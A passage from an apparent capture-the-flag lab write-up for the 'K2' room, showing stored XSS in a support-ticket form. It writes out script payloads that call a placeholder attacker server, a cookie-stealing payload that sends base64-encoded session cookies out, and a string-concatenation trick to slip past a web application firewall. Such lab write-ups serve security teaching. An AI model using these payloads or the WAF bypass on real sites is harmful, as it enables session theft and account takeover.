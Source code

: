 ![Admin subdomain hidden directories](/images/THM-K2/subdomain_admin_gobuster.png)

The tickets submitted at `http://it.k2.thm/` are viewable at `http://admin.k2.thm/`. 

After creating an account we submit a few tickets but lack the credentials to access the admin page. Since the application is accepting user input let's test for XSS. 

We intercept the request after submitting a ticket and modify it. We will also use two different payloads to determine which field is vulnerable.

```
<script src="http://YOUR_IP:PORT_NUMBER/title.txt"></script>
<script src="http://YOUR_IP:PORT_NUMBER/description.txt"></script>
```

![XSS test](/images/THM-K2/XSS_test.png)

After sending the request, we get confirmation on our web server that the `description` field is vulnerable.

![XSS validated](/images/THM-K2/desc_vulneratble_XSS.png)

Furthermore, there is a session cookie in the request and after digging for more information, we learn that neither the `HttpOnly` nor the `Secure` flags are set on it. This all points to the possibility of cookie stealing.

![Cookie with no secure flags](/images/THM-K2/cookie_no_flags.png)

Let's use the payload below.

```
<script>var i=new Image(); i.src="http://IP:PORT/?cookie="+btoa(document.cookie);</script>
```

![Cookie stealing via XSS](/images/THM-K2/cookie_stealing_XSS_payload.png)

Unfortunately for us, it gets blocked by the WAF (Web Application Firewall).

![WAF message](/images/THM-K2/WAF_message.png)

After multiple tries, we successfully bypass the WAF by using string concatenation.

```
<script>var i=new Image(); var c = "do" + "cument" + "." + "cookie"; i.src="http://YOUR_IP:PORT_NUMBER/?cookie="+btoa(eval(c));</script>
```

![WAF bypass payload](/images/THM-K2/XSS_payload_bypass_WAF.png)

On our web server, we receive the cookie value although we still have to decode it with the command below.

```
echo "CCOKIE_VALUE" | base64 -d
```

![base64 cookie value](/images/THM-K2/cookie_value_base64.png)
